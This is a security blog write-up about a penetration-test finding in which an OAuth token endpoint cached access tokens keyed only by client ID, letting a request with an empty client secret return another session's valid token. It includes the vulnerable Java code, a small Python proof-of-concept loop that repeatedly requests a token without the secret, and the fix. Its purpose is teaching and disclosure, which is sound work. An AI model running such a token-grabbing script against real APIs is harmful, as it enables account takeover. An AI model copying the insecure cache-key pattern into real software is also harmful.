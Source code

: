 ```yaml
---
layout: single
title:  "AppSec Travels: Token Caching"
date:   2023-01-13 16:29:00 -0600
categories: posts
permalink: /AppSec-Travels-1-Function-Overload/
---
```


# AppSec Travels: Token Caching

This is our first blog of AppSec Travels where we demonstrate findings from vulnerability assessments that we have been on throughout our career. This will be on ongoing series without a normal cadence because frankly some assessments are boring and no one wants to read another write up on lack of _HTTPONLY_ flag type findings. This will be for the interesting to us findings and hopefully for you as well. We don't claim that these findings will be in every assessment or that they need to even be checked for but hopefully they help in thinking differently about approaching testing differently. We do a lot of secure code reviews here at Redpoint Security so most of these blog posts will focus on code along with dynamic testing. Some names and data have been changed to protect the innocent (our customers).  

## Token Caching

Recently we were tasked with testing an API, simple straight forward, only a handful endpoints. There wasn't much to go wrong and we didn't find anything until the last day. There was one endpoint that we were testing `/oauth/token` that took a client id and client secret as params to generate an access token used for authentication to the API. We were using Burp Suite's Repeater tab when we discovered that if you send a request with a valid client id and invalid client secret right after a valid request with the correct client id and secret that the application would return a valid access token. 

![Attack]({{ site.baseurl }}{{ '/assets/images/appsec-travels/1/attack-1.png' }})
_Valid Request with correct credentials_

![Attack]({{ site.baseurl }}{{ '/assets/images/appsec-travels/1/attack-2.png' }})
_Request lacking `client_secret` but application still returns valid `access_token`_

This was behavior that I had never seen before and if you waited more than 10 seconds to send your invalid credential request the application would respond with a failed authentication attempt. This was a hybrid assessment so we had access to the code which is always helpful in understanding what is going on under the hood. The code implemented an insecure decorator that only used the client id in order to access the token cache. 


```java
@RequestMapping(value = "/oauth/token", method = RequestMethod.POST)
  @ResponseStatus(HttpStatus.OK)
  public Mono<AuthTokenResponse> login(@RequestBody AuthTokenRequest authTokenRequest) {
    return Mono.just(authTokenCache.retrieveAccessToken(authTokenRequest.getClientId(), authTokenRequest.getClientSecret(), audience,
      AuthStrategy.AUTH0));
  }
```
_Request mapping for `/oauth/token` follows to `retrieveAccessToken`_

```java
  @Cacheable(value = TOKEN_CACHE, keyGenerator = "apiTokenKeyGenerator")
  public AuthTokenResponse retrieveAccessToken(String clientId, String clientSecret, String audience, AuthStrategy authStrategy) {
    log.debug("Calling auth0 api for new access token");
    //TODO Handle Errors
    return authClients.get(authStrategy).retrieveAuthToken(audience, clientId, clientSecret).getBody();
  }
}
```
The `retrieveAccessToken` function has a decorator that looks in the token cache for a valid access token for the client, the only problem is as we see in the code below is that `generate` function only uses `audience` that is system generated plus `params[0]` which is the `client_id` to generate a key for the token. 

```java
public class ApiTokenKeyGenerator implements KeyGenerator {
  private final String audience;

  public ApiTokenKeyGenerator(String audience) {
    this.audience = audience;
  }

  @Override
  public Object generate(Object target, Method method, Object... params) {
    return "token-cache:" + audience + ":" + params[0];
  }
}
```
In order to demonstrate this attack we wrote a simple python script that attempted the `/oauth/token` request over and over again without a valid client secret. Then we logged in using Postman and the attack script would retrieve the access token, print it to the screen and stop. 

```python 
import requests
import json
import time

CLIENT_ID="<CLIENT_ID>"

def attack():
    url = "<URL>"
    headers = {"Content-Type": "application/json", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36", "Accept": "*/*", "Accept-Encoding": "gzip, deflate"}
    json={"client_id": CLIENT_ID, "client_secret": ""}
    rsp=requests.post(url, headers=headers, json=json).text
    print(rsp)
    if 'access_token' in rsp:
        return True
    return False


success=False
while not success:
    success=attack()
    time.sleep(.1)
print("[!]Vulnerable to Token Theft")
```                  

![Attack]({{ site.baseurl }}{{ '/assets/images/appsec-travels/1/attack-3.png' }})

So in review the application was using a token cache with insecure key generation for accessing the token. I do have to admit that initially when we reported this vulnerability we thought it had to do with an overloaded function, there were 2 functions named `retrieveAccessToken`, one of them took 2 parameters(see below) and the other (up above) took 4. We thought the request was reaching the code below and the token was being returned with `return authTokenResponse.accessToken();` but after digging some more and seeing the code fix we were wrong about the overloaded function. Hey, we aren't perfect but we were in the right ballpark. 




```java
@Cacheable(value = TOKEN_CACHE, keyGenerator = "tokenKeyGenerator")
  public String retrieveAccessToken(String audience, AuthStrategy authStrategy) {
    log.debug("Calling auth0 api for new access token");
    //TODO Handle Errors
    AuthTokenResponse authTokenResponse = authClients.get(authStrategy).retrieveAuthToken(audience).getBody();
    if (authTokenResponse != null) {
      return authTokenResponse.accessToken();
    } else {
      log.error("Failed to get access token for audience {} and auth strategy {}", audience, authStrategy);
      return null;
    }
  }
```

The fix included using a hash of the `client_secret` as well as using the `client_id`.  

```java
 @Override
  public Object generate(Object target, Method method, Object... params) {
    String clientId = (String) params[0];
    String clientSecret = (String) params[1];
    String hashedSecret;
    try {
      MessageDigest md = MessageDigest.getInstance(hashAlgorithm);
      md.update(clientSecret.getBytes());
      hashedSecret = DatatypeConverter.printHexBinary(md.digest()).toUpperCase();
    } catch (NoSuchAlgorithmException e) {
      log.error("Unable to create cache key for {}", clientId);
      throw new RuntimeException(e);
    }
    return "token-cache:" + audience + ":" + clientId + ":" + hashedSecret;
  }
}
```

We should talk likelihood of a successful attack happening in this instance. An attacker would have had needed to have a valid `client_id`, in this case the `client_id` was a 32 character long string of numbers and lower and uppercase letters so guessing a `client_id` wasn't happening. There are also wasn't a self registration for this application and no other endpoint leaked `client_ids` so getting a valid `client_id` would have been nearly impossible. 

Thanks for coming along on our first journey in AppSec Travels. 